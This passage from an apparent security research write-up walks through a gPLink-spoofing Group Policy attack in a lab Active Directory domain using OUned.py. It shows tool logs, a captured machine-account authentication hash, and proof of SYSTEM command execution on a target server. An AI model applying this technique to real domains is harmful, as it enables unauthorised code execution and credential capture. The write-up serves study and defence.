 ```shell

=== LAUNCHING SMB SERVER AND WAITING FOR GPT REQUESTS ===
If the attack is successful, you will see authentication logs of machines retrieving and executing the malicious GPO
Type CTRL+C when you're done. This will trigger cleaning actions
[...Waiting...]
```

All is left to do is to wait for child objects of the **SERVERS** Organizational Unit to apply their Group Policy Objects. Note that by default, GPOs are applied every 90 minutes for standard computer objects (with a random offset of 0 to 30 minutes), and every 5 minutes for domain controllers.

The next time the **AD01-SRV1** computer attempts to apply its Group Policy Objects, it will fetch the spoofed **gPLink** attribute for its parent OU **SERVERS**. As described in the attack scenario, it will then query the associated GPC on the attacker machine, and subsequently the malicious GPT files containing the immediate scheduled task on the same machine. The command included in the task will then be executed; in the present case, the computer account will simply run `whoami` and redirect the output to `C:\output.txt` in order to demonstrate command execution as **NT AUTHORITY\SYSTEM**, and thus the compromise of the server.

**OUned.py** will log the forwarding of LDAP requests performed by **AD01-SRV1** when querying the GPC, as well as the authentication performed by the server when retrieving GPT files. After a while, we can see the interactions triggered by the **AD01-SRV1** computer.

```shell
[...]
Type CTRL+C when you're done. This will trigger cleaning actions

[FORWARDER] Incoming connection from ('192.168.123.17', 49852) - client is querying its GPC (LDAP), forwarding to 192.168.125.245:389
[*] Received an authentication request from CORP\AD01-SRV1$,AD01-SRV1
[*] Validating user through netlogon service
[+] Successfully authenticated CORP\AD01-SRV1$ through Netlogon
[*] Granted access to CORP\AD01-SRV1$,AD01-SRV1
AD01-SRV1$::CORP:aaaaaaaaaaaaaaaa:83903002c2c49a1f0a39eaf284f57540:01010000000000008051bc7e6b88da01a6e90ba20bb294970000000001000a004f0055004e004500440003001c004f0055004e00450044002e0063006f00720070002e0063006f006d000200080063006f00720070000400100063006f00720070002e0063006f006d00070008008051bc7e6b88da010600040002000000080030003000000000000000000000000040000056b0bcf0d39d576ae74e42989becdae624253411b8c041fc3b6bb436da975d980a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e003100320033002e00310036000000000000000000
[+] CORP\AD01-SRV1$ requested 'gpt.ini' ; ATTACK PROBABLY WORKED FOR THIS HOST ! 
```

It is then possible to verify the successful execution of the command defined in the configuration file on the **AD01-SRV1** machine.

![[Z Assets/Images/702607268500f9fab166c9bc7dee42ce_MD5.webp]]

Confirmation of command execution by the target computer object AD01-SRV1.

Once the attack completed, pressing **CTRL+C** will perform various cleaning actions and among others restore the original **gPLink** value in the target domain. In case the exploit could not exit properly, **OUned.py** creates a cleaning file each time the exploit is executed, that can be used later on to restore legitimate values by using **OUned.py**’s `--just-clean` mode.
